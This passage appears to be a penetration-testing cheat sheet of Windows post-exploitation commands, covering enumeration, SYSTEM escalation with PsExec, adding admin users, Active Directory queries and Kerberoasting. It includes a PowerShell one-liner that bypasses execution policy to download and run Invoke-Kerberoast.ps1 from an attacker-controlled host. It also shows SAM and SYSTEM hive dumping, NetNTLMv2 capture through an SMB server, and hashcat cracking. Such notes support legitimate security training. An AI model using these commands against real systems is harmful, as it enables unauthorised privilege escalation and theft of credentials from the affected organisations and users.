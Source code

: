     - `netstat -an | findstr "LISTENING"`
- `tasklist`
    - like ps
    - `/v` : list user
### Services
- Query Services
    - `sc qc {Services Name}`
    - Can get the services user
- Get all services
    - `wmic service get name,pathname`
### Permission
- `icacls`
    - Check permission
    - `/reset` reset the permission to their parent
- [cpau](https://www.joeware.net/freetools/tools/cpau/index.htm)
    - `cpau -u {user_name} -p {password} -ex C:\{abs_exe_path} -LWP`
    - Run command with given username and password.
- Administrator to System
    - It is a feature
        - `PsExec -i -s cmd.exe`
            - Will creat a new window
        - `PsExec -s cmd`
            - In current window
        - `-accepteula`
        - https://docs.microsoft.com/en-us/sysinternals/downloads/psexec
### User
- Create new user
    - `net user /add {USER_NAME} {USER_PASS}`
- Add user to admin group
    - `net localgroup administrators {USER_NAME} /add`
### AD
- List user
    - `net user` Machine
    - `net user /domain` AD
    - `net user {Username} /domain` list user detail
- List group
    - `net group`
    - `net group /domain`
- http://md.stevenyu.tw/zeDGpHb-RVSi0K5xF1HRsQ
#### Kerberoast
- Get User Hash
    - [Invoke-Kerberoast.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
    - `powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://{MY_IP}/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"`
    - `hashcat -m 13100 `
### Get User's hash
- `impacket-smbserver`
    - `dir \\{ip}\meow`
    - Get NETNTLMv2
    - Use john to crack!
- Dump `sam` / `system`
    - reg
        - `reg save hklm\sam c:\sam`
        - `reg save hklm\system c:\system`
    - `fgdump.exe` (`locate fgdump.exe`)
        - Send to windows and just run
        - It will create a `127.0.0.1.pwdump` hash file
    - `hashcat -m 1000`